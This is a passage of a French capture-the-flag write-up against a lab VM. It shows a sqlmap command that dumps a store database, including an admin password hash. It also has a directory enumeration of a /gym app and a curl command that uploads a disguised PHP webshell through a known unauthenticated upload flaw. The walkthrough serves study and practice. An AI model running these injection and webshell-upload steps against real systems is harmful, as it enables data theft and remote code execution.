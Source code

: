 ```bash
sqlmap -u "http://192.168.56.122/store/book.php?bookisbn=978-1-49192-706-9" --dbms mysql --risk 3 --level 5 -D store -T customers --dump
```

Tout ce que j'ai eu, c'est le hash pour l'utilisateur `admin` dont j'ai déjà le mot de passe.

```console
Database: store
Table: admin
[1 entry]
+------------------------------------------+--------+
| pass                                     | name   |
+------------------------------------------+--------+
| d033e22ae348aeb5660fc2140aec35850c4da997 | admin  |
+------------------------------------------+--------+
```

Le fichier `robots.txt` avait une entrée pour `/gym`. Il y a beaucoup de chose dans ce dossier comme des sous-dossiers avec des scripts qui semblent en doublon. J'ai trouvé 3 scripts d'upload là-dedans, mais tous étaient cassés.

```console
301        9l       28w      322c http://192.168.56.122/gym/profile
200        4l       20w      137c http://192.168.56.122/gym/register.php
301        9l       28w      320c http://192.168.56.122/gym/admin
301        9l       28w      321c http://192.168.56.122/gym/upload
200        0l        0w        0c http://192.168.56.122/gym/upload.php
200      133l      309w     4848c http://192.168.56.122/gym/index.php
200      121l      278w     4282c http://192.168.56.122/gym/edit.php
200        0l        0w        0c http://192.168.56.122/gym/up.php
200      168l      487w     7624c http://192.168.56.122/gym/packages.php
301        9l       28w      322c http://192.168.56.122/gym/include
200      141l      442w     5248c http://192.168.56.122/gym/about.php
301        9l       28w      318c http://192.168.56.122/gym/img
500        0l        0w        0c http://192.168.56.122/gym/home.php
200      122l      501w     5837c http://192.168.56.122/gym/facilities.php
200      116l      272w     4104c http://192.168.56.122/gym/contact.php
200      339l     2953w    18025c http://192.168.56.122/gym/LICENSE
200      113l      268w     4252c http://192.168.56.122/gym/Feedback.php
301        9l       28w      318c http://192.168.56.122/gym/att
200       27l       54w      816c http://192.168.56.122/gym/att.php
301        9l       28w      317c http://192.168.56.122/gym/ex
301        9l       28w      319c http://192.168.56.122/gym/boot
500        0l        0w        0c http://192.168.56.122/gym/editp.php
```

Pourtant, une faille d'upload existe belle et bien :

[Gym Management System 1.0 - Unauthenticated Remote Code Execution - PHP webapps Exploit](https://www.exploit-db.com/exploits/48506)

Grosso-modo il aurait fallut faire ça :

```bash
curl -s -D- "http://192.168.56.122/gym/upload.php?id=hello" -X POST -F 'file=@sh.php.png;type=image/png' -F "pupload=upload"
```
